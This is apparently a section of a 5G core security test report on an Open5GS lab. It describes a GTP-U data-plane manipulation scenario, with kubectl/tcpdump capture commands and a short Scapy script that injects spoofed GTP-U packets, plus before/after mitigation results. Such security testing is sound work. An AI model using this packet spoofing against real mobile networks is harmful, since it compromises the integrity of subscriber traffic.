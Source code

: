 
## Attack Scenario 7: GTP-U Data-Plane Manipulation

### Objective
Intercept and manipulate GTP-U encapsulated user data to test data-plane integrity and traffic protection mechanisms.

### Attack Procedure

**Step 1: GTP-U Traffic Interception**
```bash
# Monitor GTP-U traffic
kubectl exec -n open5gs -it my5gc-upf -- \
  tcpdump -i any udp port 2152 -w /tmp/gtp.pcap

# Analyze captured traffic
kubectl cp open5gs/my5gc-upf:/tmp/gtp.pcap ./gtp-analysis.pcap
wireshark ./gtp-analysis.pcap
```

**Step 2: Packet Manipulation**
```python
from scapy.all import *

def gtp_spoof():
    # Craft malicious GTP-U packet
    gtp_header = b'\x30\x00\x00\x20'  # GTP-U header
    teid = b'\x12\x34\x56\x78'       # Tunnel ID
    payload = b'MALICIOUS_DATA'       # Modified user data
    
    malicious_gtp = IP(dst="target-ip")/UDP(dport=2152)/Raw(load=gtp_header + teid + payload)
    send(malicious_gtp, count=10)

gtp_spoof()
```

### Results

**Before Mitigation:**
```
⚠️ GTP-U MANIPULATION SUCCESSFUL
Modified packets successfully injected into tunnel
User traffic redirected to attacker-controlled DNS servers
Data integrity compromise confirmed
```

**After Mitigation:**
```
✅ GTP-U INTEGRITY PROTECTED  
IPSec tunnels established for GTP-U traffic
Sequence number validation detecting spoofed packets
Malicious packets dropped by integrity checks
```

---